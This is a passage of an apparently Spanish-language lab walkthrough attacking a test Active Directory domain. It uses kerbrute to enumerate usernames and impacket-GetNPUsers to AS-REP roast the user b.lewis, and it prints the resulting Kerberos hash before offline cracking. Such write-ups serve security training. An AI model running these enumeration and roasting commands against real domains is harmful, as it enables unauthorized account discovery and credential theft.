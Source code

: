 Podemos descargarnos algunas listas adicionales que están pensadas para nombres de usuarios de dominios de [este repositorio](https://github.com/attackdebris/kerberos_enum_userlists)

```
git clone https://github.com/attackdebris/kerberos_enum_userlists
Cloning into 'kerberos_enum_userlists'...
remote: Enumerating objects: 57, done.
remote: Total 57 (delta 0), reused 0 (delta 0), pack-reused 57 (from 1)
Receiving objects: 100% (57/57), 266.28 KiB | 1.61 MiB/s, done.
Resolving deltas: 100% (37/37), done.
```

En este repositorio tenemos muchos repositorios, así que vamos a ir probando lista por lista a ver si tenemos suerte.

Probando la segunda lista encontramos un usuario llamado `b.lewis`
```console
/usr/share/kerbrute userenum --dc 192.168.2.6 -d control.nyx A-Z.Surnames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 11/23/24 - Ronnie Flathers @ropnop

2024/11/23 14:54:21 >  Using KDC(s):
2024/11/23 14:54:21 >  	192.168.2.6:88

2024/11/23 14:54:21 >  [+] VALID USERNAME:	 B.LEWIS@control.nyx
2024/11/23 14:54:23 >  Done! Tested 13000 usernames (1 valid) in 2.673 seconds
```

# ASREPRoast
Podemos revisar si este usuario tiene el atributo `DONT_REQUIRE_PREAUTH`, esto significaría que podemos conseguir el hash de su credencial ya que el servidor nos mandaría un TGT sin que revise la credencial del usuario.
Y parece que hemos tenido suerte.
```console
impacket-GetNPUsers control.nyx/b.lewis -no-pass -dc-ip 192.168.2.6
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Getting TGT for b.lewis
$krb5asrep$23$b.lewis@CONTROL.NYX:93f3092f54e275f49db23e1124895685$2048a7a7ae6a8a4bb963aff7ba12c8ffd78642d96faf7a8b219c39b573587b8a26261bc97a4bbab17d242184b29439b441f26b91b0a985e6114c8c5048fb88313ce38d7d387a9e85c1b56268ebd4873c6ef321768fc0cc0be0eb6bb3aeb9370221688bc57ca4b954bf0bf0d3870976f4441919957e5f04ed4a0c98e3fbfca7ba876ce5926b9ffac41956072a654c2369b9052d172a1a45b57049f9acc90e7c0024042d03d29a9a045687d01c0e637f0b9388cf2939d520329c517e854d4833f2a53168c4d5998d5cd05d881a61e05ecce793eb11e6a99030aabdebe9a7f583e917697d67cb018dc0930d
```

Este hash lo podemos crackear offline con `johntheripper`, lo vamos a guardar en un fichero llamado `hash` y a intentar crackearlo.
